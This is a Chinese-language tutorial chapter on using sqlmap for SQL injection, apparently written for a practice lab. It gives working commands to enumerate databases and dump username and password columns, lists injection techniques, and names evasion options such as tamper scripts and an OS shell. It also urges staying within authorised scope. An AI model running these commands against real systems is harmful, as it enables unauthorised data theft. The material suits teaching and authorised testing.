

# 06 sqlmap 使用

> sqlmap 把前面的手工流程自动化了。**先会手工，再用工具**，否则出来的结果你不知道真假。

## 6.1 标准四步

```bash
# 1) 取库名
sqlmap -u "http://target/index.php?id=1" --dbs

# 2) 指定库，取表名
sqlmap -u "http://target/index.php?id=1" -D security --tables

# 3) 指定表，取列名
sqlmap -u "http://target/index.php?id=1" -D security -T users --columns

# 4) 指定列，取数据
sqlmap -u "http://target/index.php?id=1" -D security -T users -C username,password --dump
```

| 参数 | 含义 |
| --- | --- |
| `-u` | 目标 URL |
| `--dbs` | 列出所有数据库 |
| `-D` | 指定数据库名（大写 D） |
| `--tables` | 列出表 |
| `-T` | 指定表名 |
| `--columns` | 列出列 |
| `-C` | 指定列名（逗号分隔） |
| `--dump` | 导出数据 |
| `--current-db` | 只显示当前库 |
| `--current-user` | 当前数据库用户 |
| `--batch` | 全程默认选项，不交互 |
| `--threads` | 并发线程数 |

> 实测第 1 步输出里能看到 **security** 库。

## 6.2 `--technique`：选择注入技术

`--technique` 决定 sqlmap 用哪种方式取数据，默认全试（`BEUSTQ`）。指定单一技术能显著提速。

| 值 | 名称 | 适用场景 |
| --- | --- | --- |
| `U` | Union（联合查询） | **页面有回显位**，最快 |
| `E` | Error（报错注入） | 找不到回显位，但数据库报错信息会显示在页面上 |
| `B` | Boolean（布尔盲注） | 没有回显、不报错，但页面「有/没有」两种状态可区分 |
| `T` | Time（时间盲注） | 没有回显、不报错、页面也没差别，只能靠响应时间判断 |
| `S` | Stacked（堆叠查询） | 支持多语句执行时，可 `;` 接第二条语句 |
| `Q` | Inline（内联查询） | 嵌套在其他语句里执行 |

判断顺序：



- `E`（error based）：闭合被破坏会触发数据库报错，报错内容里带出数据。
- `B`（boolean based）：用 `and 1=1` / `and 1=2` 让页面出现两种状态，逐位猜。
- `T`（time based）：用 `sleep(5)`，靠响应时间长短区分真假，最慢。

## 6.3 完整命令

```bash
sqlmap -u "http://target/index.php?id=1" \
  --dbs --batch --threads 10 --technique U
```

含义：查库名；忽略所有交互确认；开 10 个线程；只用 union 联合查询。

## 6.4 常用补充参数

| 参数 | 用途 |
| --- | --- |
| `--level=1-5` | 测试深度，越高测试点越多（默认 1，慢但全） |
| `--risk=1-3` | 风险等级，3 可能触发破坏性语句，慎用 |
| `--random-agent` | 随机 UA，绕简单指纹 |
| `--tamper=xxx.py` | 加载绕过脚本（如 `space2comment`） |
| `--proxy` | 挂代理观察流量 |
| `--os-shell` | 尝试拿系统 shell（权限足够才可能成功） |
| `-r request.txt` | 从文件读整个请求，适合复杂头/Cookie |

## 6.5 注意事项

- **`--threads` 不要开太大**，10 左右够用；真实授权项目里并发过高容易被 WAF 封、也会打挂靶机。
- `--risk=3` 会尝试 `update`/`delete` 类语句，**靶场以外一律不要用**。
- 结果不一定准：sqlmap 报 "not vulnerable" 不代表一定安全，可能只是被 WAF 拦了。
- 速度慢时先判断技术类型：`U` 秒出，`T` 可能跑几小时。
- 所有操作必须在**授权范围**内。sqlmap 有访问日志，打别人的站是能查到的。
